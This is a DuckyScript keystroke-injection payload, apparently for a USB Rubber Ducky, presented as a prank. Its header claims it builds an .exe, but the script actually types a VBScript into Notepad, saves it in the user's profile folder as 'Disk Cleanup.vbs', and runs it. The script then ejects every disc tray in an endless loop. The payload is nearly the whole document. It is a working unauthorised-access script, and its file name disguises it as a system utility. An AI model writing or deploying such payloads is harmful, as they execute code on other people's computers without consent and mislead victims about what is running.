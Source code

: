 # Author: Windy42
## Description: This will make an .exe that will open the disk tray over and over again.
### Note: I do not take all credit for writing this, the prank has been written many times I just converted it into a Payload.

GUI d
DELAY 300
GUI r
STRING notepad
ENTER
DELAY 100
STRING Set oWMP = CreateObject("WMPlayer.OCX.7")
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING if colCDROMs >= 1 then
ENTER
STRING For i = 0 to colCDROMs.Count - 1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING End If
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
DELAY 200
CTRL s
DELAY 100
STRING %userprofile%\Disk Cleanup.vbs
ENTER
DELAY 200
ALT F4
DELAY 100
GUI d
DELAY 100
STRING Disk Cleanup.vbs
ENTER
